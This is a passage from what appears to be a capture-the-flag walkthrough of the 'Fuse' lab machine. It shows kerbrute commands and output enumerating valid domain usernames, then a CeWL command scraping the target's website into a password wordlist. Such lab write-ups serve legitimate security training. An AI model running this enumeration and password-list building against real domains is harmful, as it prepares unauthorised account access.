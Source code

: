 We can add these to a file users.txt and use a program kerbrute to check if these users exist on the fabricorp.local domain. To get kerbrute, you can download a release from [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute). Running this with the users listed above, we get:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Fuse]
└──╼ $kerbrute userenum -d fabricorp.local --dc fabricorp.local users.txt
 __ __ __
 / /_____ _____/ /_ _______ __/ /____
 / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 12/21/20 - Ronnie Flathers @ropnop
2020/12/21 13:58:13 > Using KDC(s):
2020/12/21 13:58:13 > fabricorp.local:88
2020/12/21 13:58:14 > [+] VALID USERNAME: pmerton@fabricorp.local
2020/12/21 13:58:14 > [+] VALID USERNAME: tlavel@fabricorp.local
2020/12/21 13:58:14 > [+] VALID USERNAME: sthompson@fabricorp.local
2020/12/21 13:58:14 > [+] VALID USERNAME: administrator@fabricorp.local
2020/12/21 13:58:14 > [+] VALID USERNAME: bhult@fabricorp.local
2020/12/21 13:58:14 > Done! Tested 5 usernames (5 valid) in 0.389 seconds
```

Now that we have valid usernames, we need password candidates and a place to try them. We are going to use CeWL to parse the website and generate a wordlist.

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Fuse]
└──╼ $cewl -d 3 -m 8 --with-numbers -w fabricorp_wordlist.txt http://fuse.fabricorp.local/papercut/logs/html/index.htm
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

We have specified a depth of 3 \(-d 3\) for the program to crawl, a minimum password length of 8 \(-m 8\), we want words that contain numbers \(--with-numbers\) and an output file fabricorp\_wordlist.txt and the URL of the home page we want to crawl. This generates a wordlist of the type:

```bash
┌─[rin@parrot]─[~/boxes/Fuse]
└──╼ $cat fabricorp_wordlist.txt
PaperCut
GRAYSCALE
papercut
sthompson
LONWK019
Document
Grayscale
Software
Copyright
Location
NotepadLETTER
Language
printing
International
bnielson
LONWK015
mountain
Fabricorp01
```
